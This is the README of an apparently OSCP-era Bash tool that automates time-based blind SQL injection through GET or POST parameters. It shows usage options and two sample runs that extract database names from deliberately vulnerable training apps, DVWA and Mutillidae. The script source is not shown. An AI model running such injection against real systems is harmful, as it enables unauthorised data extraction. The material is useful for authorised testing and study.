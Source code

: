 # Time-based Blind SQL Injection

Bash script for automating time-based blind SQL injections.

## About

This script was written while pursuing the OSCP. It can be used to exploit vulnerable string parameters in GET or POST requests. While the script is based on MySQL, it can be adapted to work against other DBMSs by modifying the `$payload` value.

## Disclaimer

This script is intended for educational purposes/authorised testing only. The author of this script does not take responsibility for the unauthorised use of this script.

## Usage

```
$ ./time_blind_sqli.sh -h
usage: ./time_blind_sqli.sh [-h] -u url [-d data] -p parameter [-c cookie] -s sql -t time_delay

Options:
-h    Print this help
-u    URL
-d    POST data
-p    Vulnerable parameter
-c    Cookie
-s    SQL query to be executed on target
-t    Time delay duration in seconds (try higher value if you get inaccurate results)
```

## Examples

Exploiting time-based SQL injection in id GET parameter:

```
$ ./time_blind_sqli.sh -u "http://192.168.56.101/vulnerabilities/sqli_blind/?id=PAYLOAD&Submit=Submit" -p id -c "PHPSESSID=sv43imms0ubmpig14pi715h9a7; security=low" -s "SELECT database()" -t 2
Retrieving query results one character at a time...
dvwa
Finished!
```

Exploiting time-based SQL injection in username POST parameter:

```
$ ./time_blind_sqli.sh -u "http://nowasp.local/mutillidae/index.php?page=login.php" -d "username=PAYLOAD&password=pass&login-php-submit-button=Login" -p username -s "SELECT database()" -t 2
Retrieving query results one character at a time...
nowasp
Finished!
```
